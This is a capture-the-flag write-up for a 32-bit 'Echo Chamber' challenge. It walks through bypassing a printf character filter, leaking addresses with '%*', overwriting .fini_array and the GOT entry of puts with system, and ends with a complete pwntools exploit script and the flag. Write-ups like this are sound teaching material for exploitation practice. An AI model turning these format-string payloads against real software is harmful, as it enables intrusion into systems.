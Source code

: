 # Echo Chamber writeup

## Description

I made an echo chamber that reverberate your input using the good old `printf`.
Surely it will be safe if I made a filter for it, right?

`$ nc something.challenge.cr3c.tf 1337`

flag is at `/flag`

**author**: Lio

## Protection checking

The program disables PIE and RELRO, meaning we can overwrite something in the GOT section.

```txt
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8046000)
    RUNPATH:  b'.'
```

## Program flow

The program reads our input and will either call `puts()` or `printf()` on it after going through a `filter()` function.

```c
void main() {
    init();
    char buf[72];
    int len = 0;
    puts("Welcome to my echo chamber!");
    write(1, "Shout your message: ", 20);
    len = read(0, buf, 72);
    buf[len] = 0;
    puts("Your message is:");
    filter(buf, len);
}
```

The `filter()` function forbiddens us from using almsot all possible format strings leak characters such as `%d`, `%x`, `%p`,...

```c
void filter(char* buf, int len) {
    long i;
    for(i = 0; i < len; i++) {
        switch(buf[i])
        {
            case 'a':
            case 'A':
            case 'b':
            case 'B':
            case 'd':
            case 'e':
            case 'E':
            case 'f':
            case 'F':
            case 'g':
            case 'G':
            case 'i':
            case 'o':
            case 'p':
            case 's':
            case 'u':
            case 'x':
            case 'X':
                puts(buf);
                return;
            default:
                continue;
        }
    }
    printf(buf);
}
```

But there're still `%n` (for writing) and `%c` (for 1 byte leaking), which is not useful at this moment since there's no call to a libc function after `printf()`.

## Bypass the filter function

You can still get a 4 bytes leak from the current index of the format string in decimal notaion simply by using `%*`.

And since the program runs in 32-bit, we can leak the full address of the program as well as the libc.

The address of `main()+158` (holds the value `0x804936b`) is at the 11th index so we can do a fact check of this method.

```txt
Welcome to my echo chamber!
Shout your name: %c %c %c %c %c %c %c %c %c %c %*
Your message is:
� < , �   ! � � � %134517611
```

Voila! Note that this is 2's signed complement therefore any value greater than `0x7fffffff` (libc and stack addresses) will be displayed as negative numbers.

Now that we got a leak, the only remaining problem is how can we utilize `printf()` to overwrite any section we want.

But like I said above, there's no call to libc function after `printf()` so overwriting the GOT is not the right move here.

## Function call after main exits

If the program exits via `return` or a call to libc's `exit()` function, the libc will execute a function called `__run_exit_handlers()` which will call every destructor functions of the program located in the `.fini_array` (formally called `.dtors`) section of the binary.

We can find the offset of `.fini_array` via `readelf -d`.

```txt
Dynamic section at offset 0x21b4 contains 24 entries:
  Tag        Type                         Name/Value
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000c (INIT)                       0x8049000
 0x0000000d (FINI)                       0x80493a8
 0x00000019 (INIT_ARRAY)                 0x804b1ac
 0x0000001b (INIT_ARRAYSZ)               4 (bytes)
 0x0000001a (FINI_ARRAY)                 0x804b1b0
 0x0000001c (FINI_ARRAYSZ)               4 (bytes)
 0x6ffffef5 (GNU_HASH)                   0x80481cc
 0x00000005 (STRTAB)                     0x80482bc
 0x00000006 (SYMTAB)                     0x80481ec
 0x0000000a (STRSZ)                      157 (bytes)
 0x0000000b (SYMENT)                     16 (bytes)
 0x00000015 (DEBUG)                      0x0
 0x00000003 (PLTGOT)                     0x804b2ac
 0x00000002 (PLTRELSZ)                   56 (bytes)
 0x00000014 (PLTREL)                     REL
 0x00000017 (JMPREL)                     0x80483d4
 0x00000011 (REL)                        0x80483b4
 0x00000012 (RELSZ)                      32 (bytes)
 0x00000013 (RELENT)                     8 (bytes)
 0x6ffffffe (VERNEED)                    0x8048374
 0x6fffffff (VERNEEDNUM)                 1
 0x6ffffff0 (VERSYM)                     0x804835a
 0x00000000 (NULL)                       0x0
```

Since the program doesn't have any user-defined destructor function, `.fini_array` section only holds the address of 1 function which is `__do_global_dtors_aux()`.

And because RELRO is disabled, we can overwrite this section and replace it with the address of the `main()` function, therefore giving us one more chance to call `printf()`. We can also leak the stack address via the 1st call to `printf()` so that we can overwrite the return address of the 2nd call to `main()` to be well... `main()` again.

The `puts()` function only gets called if our input contains at least 1 forbidden character inside the `filter()` function. We can overwrite the GOT entry of `puts()` into `system()` function and utilize this to get a shell.

This exploit may not work if the stack address we want to overwrite contains at least one forbidden character (very small chance) => Little brute forcing.

## PoC

```py
from pwn import *

context.binary = exe = ELF('chal')
libc = ELF('libc.so.6')

def convert(int_num):
    if int_num < 0:
        int_num = int_num + 2**32
    return int_num

def craft_1(addr, value):
    target_low = value & 0xffff
    target_high = value >> 16
    payload = f'%{target_high-16}c%27$hn%{target_low-target_high}c%26$hn'.encode().ljust(28, b'-')
    payload += p32(addr) + p32(addr+2)
    return payload

def craft_2(addr_1, value_1, addr_2, value_2):
    target_low_1 = value_1 & 0xffff
    target_high_1 = ((value_1 & 0xffff0000) >> 16)
    target_low_2 = (value_2 & 0xffff)
    target_high_2 = ((value_2 & 0xffff0000) >> 16)

    if target_low_1 < target_low_2:
        write_1 = target_low_1
        idx_1 = 31
        write_2 = target_low_2
        idx_2 = 33
    else:
        write_1 = target_low_2
        idx_1 = 33
        write_2 = target_low_1
        idx_2 = 31

    payload = f'%{target_high_1}c%32$hn%{write_1-target_high_1}c%{idx_1}$hn'
    payload += f'%{write_2-write_1}c%{idx_2}$hn%{target_high_2-write_2}c%34$hn'
    payload = payload.encode().ljust(56, b'-')
    payload += p32(addr_1) + p32(addr_1+2) + p32(addr_2) + p32(addr_2+2)
    return payload

io = process()
# gdb.attach(io, api=True)

fini_array = exe.get_section_by_name('.fini_array').header.sh_addr
payload = b'%c%*----' + craft_1(fini_array, exe.sym['main'])
payload += b'69' + b"%c"*7 + b"%*"
io.sendlineafter(b'message: ', payload)

io.recvuntil(b'is:\n')
io.recv(2)
libc.address = convert(int(io.recv(10))) - libc.sym['stdout']

io.recvuntil(b'69')
io.recv(8)
buffer = convert(int(io.recvline(keepends=False)))

log.info(f'buffer address: {hex(buffer)}')
log.info(f'libc base: {hex(libc.address)}')

payload = craft_2(buffer-88, exe.sym['main'], exe.got['puts'], libc.sym['system'])
io.sendafter(b'message: ', payload)

io.sendlineafter(b'message: ', b'cat /flag')
io.interactive()

# cr3{1_th0ught_main_w45_th3_3nd}
```